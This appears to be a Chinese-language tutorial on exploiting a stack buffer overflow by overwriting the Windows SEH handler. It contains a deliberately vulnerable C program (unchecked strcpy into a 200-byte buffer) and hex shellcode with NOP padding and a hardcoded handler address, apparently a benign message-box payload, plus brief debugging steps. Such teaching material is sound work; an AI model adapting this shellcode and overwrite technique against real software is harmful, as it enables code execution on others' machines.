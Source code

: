# Using SEH in stack overflow

**Author：wnagzihxain
Mail：tudouboom@163.com**

```
#include <windows.h>
#include <stdio.h>

char *shellcode = "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x98\xFE\x12\x00";

DWORD MyExceptionhandler(void)
{
	printf("got an exception, press Enter to kill process\n");
	getchar();
	ExitProcess(1);
}

void test(char* input)
{
	char buf[200];
	int zero = 0;
	//__asm int 3
	__try
	{
		strcpy(buf, input);
		zero = 4/zero;
	}
	__except(MyExceptionhandler){}
}

int main()
{
	test(shellcode);
	return 0;
}
```

我们先测一测整个的结构，比如缓冲区的起始位置，SEH链的结构，那么大概就是下面这种情况

![](Image/1.png)

断下来后我们单步走，直到执行`strcpy()`

![](Image/2.png)

现在我们可以确定了，现在换上我们的shellcode，整个shellcode的长度和最后覆盖SEH的地址要根据自己环境来确定，编译生成release版本

![](Image/3.png)

最后放一张很有意思的图

![](Image/4.png)